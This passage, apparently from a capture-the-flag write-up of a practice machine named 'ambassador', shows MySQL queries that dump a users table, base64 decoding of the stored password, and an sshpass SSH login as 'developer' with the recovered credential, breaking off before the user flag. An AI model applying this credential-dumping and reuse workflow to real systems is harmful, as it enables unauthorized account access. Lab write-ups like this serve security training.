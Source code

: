 

Looking in whacky widget, there's only one table:



    mysql> use whackywidget;
    Reading table information for completion of table and column names
    You can turn off this feature to get a quicker startup with -A

    Database changed
    mysql> show tables;
    +------------------------+
    | Tables_in_whackywidget |
    +------------------------+
    | users                  |
    +------------------------+
    1 row in set (0.08 sec)



It has one user, with a password field that looks like base64:



    mysql> select * from users;
    +-----------+------------------------------------------+
    | user      | pass                                     |
    +-----------+------------------------------------------+
    | developer | YW5FbmdsaXNoTWFuSW5OZXdZb3JrMDI3NDY4Cg== |
    +-----------+------------------------------------------+
    1 row in set (0.09 sec)



#### Connect

I would expect to see "password" decode to some encrypted binary data,
but it comes out as plain text:



    oxdf@hacky$ echo "YW5FbmdsaXNoTWFuSW5OZXdZb3JrMDI3NDY4Cg==" | base64 -d
    anEnglishManInNewYork027468



That works to SSH as developer:



    oxdf@hacky$ sshpass -p 'anEnglishManInNewYork027468' ssh developer@10.10.11.183
    Welcome to Ubuntu 20.04.5 LTS (GNU/Linux 5.4.0-126-generic x86_64)
    ...[snip]...
    developer@ambassador:~$ 



And grab the user flag:


